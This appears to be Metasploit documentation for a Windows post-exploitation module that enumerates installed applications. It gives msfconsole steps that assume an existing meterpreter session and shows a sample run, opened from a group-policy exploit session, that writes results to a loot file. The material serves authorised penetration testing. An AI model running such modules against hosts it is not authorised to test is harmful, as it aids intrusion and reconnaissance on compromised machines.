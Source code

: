 ## Vulnerable Application

  This module will enumerate all installed applications

## Verification Steps
  1. Start `msfconsole`
  2. Get meterpreter session
  3. Do: `use post/windows/gather/enum_applications`
  4. Do: `set SESSION <session id>`
  5. Do: `run`

## Options

  ```
  SESSION
  ```
  The session to run this module on.

## Scenarios

### A run on Windows 7 (6.1 Build 7601, Service Pack 1).

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.4:49178) at 2019-12-10 14:18:44 -0700

  msf exploit(windows/smb/group_policy_startup) > use post/windows/gather/enum_applications
  msf post(windows/gather/enum_applications) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/enum_applications) > run

    [*] Enumerating applications installed on MSF-PC

    Installed Applications
    ======================

    Name  Version
    ----  -------


    [+] Results stored in: /root/.msf4/loot/20191210142153_default_192.168.1.4_host.application_382950.txt
    [*] Post module execution completed
    ```
